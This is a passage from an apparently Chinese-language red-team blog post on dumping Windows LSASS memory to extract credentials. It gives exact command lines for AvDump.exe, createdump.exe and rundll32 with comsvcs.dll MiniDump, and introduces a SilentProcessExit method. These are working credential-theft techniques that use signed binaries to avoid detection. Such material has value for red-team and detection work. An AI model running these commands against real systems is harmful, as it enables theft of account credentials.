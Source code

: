 其中1、2、4这三个工具是有微软签名的，3是有杀软厂商Avast的签名，rundll32这个LOLBIN就不用说了

前两个工具的用法已经是老生常谈了，网上也有很多文章，主要讨论后三个

**PS：**注意使用这些工具的时候最好是system权限，如果是administrator的话要注意是否有`SeDebugPrivilege`，如果没有的话可以在命令前使用`powershell -c`

#### (1) AvDump.exe

AvDump.exe是杀软Avast自带的一个程序，该程序可以用来dump进程的内存，拥有Avast的签名

``` htmlbars
.\AvDump.exe --pid <lsass pid> --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file C:\Users\admin\Desktop\lsass.dmp --min_interval 0
```

![1615122973287.png](https://i.loli.net/2021/03/27/pWHXrZV5wutbvSO.png)


#### (2) CreateDump.exe

> createdump.exe随着.NET5出现的，本身是个native binary

虽然createdump.exe是随着.NET5出现的，但因为它是native binary，所以执行时并不需要依赖.NET5的环境

``` htmlbars
createdump.exe -u -f lsass.dmp <lsass pid>
```

#### (3) Rundll32.exe

其实就是使用rundll32直接执行comsvcs.dll的导出函数`MiniDump`来Dump进程内存

``` htmlbars
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\Users\admin\Desktop\lsass-comsvcs.dmp full
```


![1615186606282.png](https://i.loli.net/2021/03/27/l1KjZJ3BINMXu4Q.png)



### 3. 利用SilentProcessExit进行Dump

> 优点：
> + 系统正常行为
> 
> 缺点：
> + 需要写注册表


很久之前看到过让系统蓝屏，然后通过windbg调试系统崩溃文件来读取lsass进程，但个人感觉这种方法风险过大，并且产生的崩溃文件的体积非常大，在实战中的应用情况有限

直到不久前看到了一篇文章使用SilentProcessExit来使lsass静默退出，进而dump进程内存的方法，具体原理可以看文章：

[利用SilentProcessExit机制dump内存](https://mp.weixin.qq.com/s/8uEr5dNaQs24KuKxu5Yi9w)

> Silent Process Exit，即静默退出。而这种调试技术，可以派生 werfault.exe进程，可以用来运行任意程序或者也可以用来转存任意进程的内存文件或弹出窗口。

